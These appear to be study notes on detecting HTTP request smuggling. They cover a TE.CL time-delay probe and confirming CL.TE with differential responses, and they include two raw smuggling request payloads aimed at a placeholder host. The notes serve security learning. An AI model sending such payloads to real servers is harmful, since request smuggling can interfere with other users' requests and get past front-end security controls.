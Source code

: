 #### TE.CL
time delay with this:
```http
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X


```

Since the front-end server uses the `Transfer-Encoding` header:
- it will forward only part of this request, omitting the `X`

The back-end server uses the `Content-Length` header:
- expects more content in the message body
  =>
- waits for the remaining content to arrive. 
- This will cause an observable time delay.

### Confirming vulnerabilities using differential responses
When a probable request smuggling vulnerability has been detected:
- you can obtain further evidence for the vulnerability by:
	- exploiting it to trigger differences in the contents of the application's responses.
=>
This involves sending 2 requests to the application in quick succession:
- An "attack" request 
	- that is designed to interfere with the processing of the next request
	  
- A "normal" request.

If the response to the normal request:
- contains the expected interference =>  the vulnerability is confirmed.
  
#### Confirming CL.TE
Send:
```http
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x


```
